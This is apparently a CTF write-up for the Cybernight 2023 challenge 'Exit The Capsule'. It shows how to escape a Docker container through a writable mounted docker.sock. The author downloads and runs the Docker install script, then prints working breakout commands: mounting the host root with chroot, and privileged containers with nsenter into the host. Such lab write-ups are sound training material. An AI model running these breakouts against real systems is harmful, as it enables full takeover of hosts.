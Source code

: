 ```yaml
---
title: "ExitTheCapsule"
date: 2023-11-25T16:20:18+01:00
draft: false
tags: ['System']
categories:
  - 'Writeups'
  - 'Cybernight 2023'
---
```


# Cybernight 2023 - Exit The Capsule
---

## Category

> System

## Description

> Arriverez-vous à vous échapper du conteneur pour trouver le flag ?

## Link

*Access to a Docker through Web SSH*

## Difficulty

**EASY** - 50 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

*NB: I am writing this WU after the CTF was closed, and therefore, and no more access to machines.*

### What's a sock ?

I already did this kind of Docker Escape/Breakout before, using this [Hacktricks book](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).

This time, running all the command and tests it recommends, without thinking a little, didn't work.

The very first entry point, was to look for **mounted points**, using `df` or `mount -l` for example, to recover access from host.

{{< admonition info "ChatGPT explanation ('cause i'm dumb)" false >}}
In Linux, a mount point is a directory where an additional file system is attached, integrating it into the overall file system hierarchy. In the context of containers, mounting points are locations inside the container's file system where external resources, such as volumes or host directories, are attached, enabling data sharing between the container and the host. This facilitates data persistence and sharing between the container and its host environmen{{</ admonition >}}

I cannot share it or describe all of them here, but I know that one of the mounted point was suspect. There was a ``/run/docker.sock`` mounted on a `tmpfs` filesystem, with write and read permissions.

In other words: **we had access to the docker socket of the host**.

{{< admonition info "ChatGPT explanation ('cause i'm still dumb)" >}}
The docker.sock file is a Unix socket that allows communication between the Docker daemon and Docker client or other Docker-related tools. 
{{</ admonition >}}

I was then looking to find how to exploit it, using docker command.

### Docker to escape Docker

First step was to install docker inside the container (🤯) using these steps:
```bash
wget https://get.docker.com -O install.sh
chmod +x install.sh
./install.sh
```

Now that we have docker, I was able to use [this trick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape) from the book above:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:16.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

And then, we magically were controlling the host!

The Last step was to find the flag, using this command, for example:

```bash
# Find all the files that contains 'flag' from the root / and do not output errors (2)
find / -name "*flag*" 2>/dev/null
```

Lots of results, but a ``/var/flag.txt`` kept my attention.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{I Didn't Save The Flag Lol}`
{{< /admonition >}}
